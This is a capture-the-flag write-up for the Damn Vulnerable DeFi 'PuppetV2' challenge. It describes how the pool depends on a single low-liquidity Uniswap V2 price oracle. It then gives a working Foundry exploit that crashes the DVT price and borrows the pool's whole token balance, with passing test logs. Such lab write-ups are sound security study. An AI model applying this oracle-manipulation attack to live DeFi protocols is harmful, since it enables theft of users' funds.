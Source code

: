 # Damn Vulnerable Defi - PuppetV2
- Scope
    - PuppetV2Pool.sol
    - UniswapV2Library.sol
    - IUniswapV2Pair.sol
    - IUniswapV2Router02.sol
    - IUniswapV2Factory.sol
- Tools
    - [Foundry](https://github.com/foundry-rs/foundry)

# Findings

## `PuppetPoolV2` single price oracle dependency allows for token price manipulation

### Summary
The PuppetPoolV2 rely on a single price oracle UniswapV2Exchange which has low liquidity, allowing manipulation of the value of DVT token and allow draining the token from PuppetPool.

### Vulnerability Details
Single reliance on UniswapV2Exchange as price oracle and low liquidity exchange. Allowing manipulation of a single token value.

### Impact/Proof of Concept
```
function test_puppetV2() public checkSolvedByPlayer {
        // Swap DVT for ETH in Uniswap, then deposit the ETH to WETH
        // DVT value drops, we use WETH to swap out all the DVT inside PuppetPool
        console.log("player DVT beforeBalance: ", token.balanceOf(address(player)) / 1e18);
        console.log("exchange DVT beforeBalance: ", token.balanceOf(address(uniswapV2Exchange)) / 1e18);
        
        address[] memory path = new address[](2);
        path[0] = address(token);
        path[1] = address(weth);
        token.approve(address(uniswapV2Router), PLAYER_INITIAL_TOKEN_BALANCE);
        uniswapV2Router.swapExactTokensForETHSupportingFeeOnTransferTokens(PLAYER_INITIAL_TOKEN_BALANCE, 0, path, address(player), 9999999999);
        console.log("player DVT afterBalance: ", token.balanceOf(address(player)) / 1e18);
        console.log("exchange DVT afterBalance: ", token.balanceOf(address(uniswapV2Exchange)) / 1e18);

        // Check what is the required WETH to get all the DVT out
        uint256 wethRequired = lendingPool.calculateDepositOfWETHRequired(token.balanceOf(address(lendingPool)));
        console.log("WETH required: ", wethRequired / 1e18);
        weth.deposit{value: address(player).balance}();
        console.log("player WETH Balance: ", weth.balanceOf(address(player)) / 1e18);
        weth.approve(address(lendingPool), wethRequired);
        // Borrow all the token from pool
        lendingPool.borrow(token.balanceOf(address(lendingPool)));
        
        // Transfer all the tokens to recovery
        token.transfer(recovery, token.balanceOf(player));
        console.log("pool DVT Balance: ", token.balanceOf(address(lendingPool)) / 1e18);
        console.log("player DVT Balance: ", token.balanceOf(address(player)) / 1e18);
        console.log("recovery DVT Balance: ", token.balanceOf(address(recovery)) / 1e18);
    }
```

Results
```diff
[PASS] test_puppetV2() (gas: 268432)
Logs:
  ===== BEFORE SWAP =====
  player DVT beforeBalance:  10000
  exchange DVT beforeBalance:  100
  ===== AFTER SWAP =====
  player DVT afterBalance:  0
  exchange DVT afterBalance:  10100
  ===== BEFORE BORROW =====
  WETH required:  29
  player WETH Balance:  29
  ===== AFTER BORROW =====
  pool DVT Balance:  0
  player DVT Balance:  0
  recovery DVT Balance:  1000000

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 9.12ms (1.92ms CPU time)
```

